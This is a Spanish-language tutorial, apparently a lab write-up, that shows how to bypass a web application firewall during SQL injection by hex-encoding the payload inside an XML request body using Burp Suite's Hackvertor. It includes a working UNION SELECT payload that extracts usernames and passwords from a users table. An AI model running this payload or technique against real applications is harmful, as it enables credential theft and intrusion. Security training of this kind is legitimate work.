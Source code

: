 # **Bypassing WAF en Blind SQL Injection con XML Encoding**  

Los **Web Application Firewalls (WAFs)** pueden bloquear ataques SQL Injection al detectar palabras clave como `UNION`, `SELECT` o `--`. Sin embargo, algunos WAFs tienen problemas con la decodificación de ciertos formatos, lo que permite **bypass usando XML Encoding**.  

---

## **1. Identificación de la inyección**  

Tenemos una aplicación que envía datos en formato **XML**, específicamente en el cuerpo de una solicitud **POST**:  

```xml
<stockCheck>
    <productId>2</productId>
    <storeId>1</storeId>
</stockCheck>
```

Intentamos modificar el valor `storeId` para probar si el campo es vulnerable.  

### **🔎 Prueba de evaluación matemática**  

Si enviamos:  

```xml
<stockCheck>
    <productId>2</productId>
    <storeId>1+1</storeId>
</stockCheck>
```

Y el servidor devuelve un resultado equivalente a **2**, significa que el campo `storeId` **evalúa expresiones** antes de ejecutarlas en la base de datos.  

---

## **2. Bloqueo del WAF en SQL Injection**  

Intentamos un **ataque UNION básico**:  

```
1+7 UNION SELECT NULL
```

📌 **Resultado:** 🚫 `Attack Detected!`  

El WAF está bloqueando **"UNION SELECT"** dentro del parámetro `storeId`.  

---

## **3. Bypass con XML Encoding**  

Para evadir el WAF, podemos **encodear nuestra consulta SQL en formato hexadecimal**, usando la extensión **Hackvertor** en Burp Suite:  

```xml
<stockCheck>
    <productId>2</productId>
    <storeId><@hex_entities>1+7 UNION SELECT username||':'||password from public.users--<@/hex_entities></storeId>
</stockCheck>
```

📌 **Explicación del payload:**  

1. **`<@hex_entities>...</@hex_entities>`**  
   - Hackvertor convierte la consulta en entidades hexadecimales para que el WAF no la detecte.  
   
2. **`1+7 UNION SELECT username||':'||password FROM public.users--`**  
   - Bypass del filtro **al ocultar "UNION SELECT" en formato hexadecimal**.  
   - `username||':'||password` concatena usuario y contraseña en una sola cadena.  

---

## **4. Decodificación en el servidor**  

🔹 Si el servidor **decodifica automáticamente el contenido XML**, entonces ejecutará la consulta sin que el WAF la bloquee.  
🔹 Como resultado, obtenemos **las credenciales de los usuarios** sin activar las protecciones del WAF.  

---

## **5. Conclusión**  

✅ **XML Encoding** permite **bypassear WAFs** que bloquean SQL Injection en texto plano.  
✅ **Hackvertor** en Burp Suite simplifica el proceso de encoding.  

🚀 **Esta técnica es útil cuando los ataques tradicionales son bloqueados, pero la aplicación procesa XML y evalúa expresiones dinámicamente.**
